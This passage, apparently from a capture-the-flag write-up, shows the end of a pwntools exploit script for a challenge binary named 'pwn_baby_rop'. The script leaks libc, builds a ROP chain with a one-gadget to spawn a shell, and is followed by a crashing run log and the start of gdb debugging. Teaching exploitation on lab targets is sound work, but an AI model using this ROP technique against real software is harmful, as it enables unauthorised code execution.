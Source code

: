 puts_offset = 0x0875a0
libc_base = puts_addr - puts_offset
log.info('LIBC base address: ' + hex(libc_base))


# 2nd stage
pop_rsi_r15 = 0x00401661
pop_rdx_r12 = libc_base + 0x0011c1e1
sys_gadget = libc_base + 0xe6ce9
log.info('gadget address: ' + hex(sys_gadget))

payload = b""
payload += b"A" * 264
payload += p64(pop_rsi_r15)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(pop_rdx_r12)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(sys_gadget)

io.sendline(payload)
io.interactive()
{% endhighlight %}

## It Works! Oh, Wait, It Doesn't
I tried to run the script above only to find out that the program crashes:

{% highlight auto %}
$ python exploit.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts address: 0x7f68ab5175a0
[*] LIBC base address: 0x7f68ab490000
[*] gadget address: 0x7f68ab576ce9
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ id
[*] Got EOF while reading in interactive
$ 
[*] Program './pwn_baby_rop' stopped with exit code -11
[*] Got EOF while sending in interactive
{% endhighlight %}

Please, don't close this page just yet. This is a pretty common problem, so I decided to include it in this article. Let's uncomment the line that attaches gdb to the process and re-run the program:
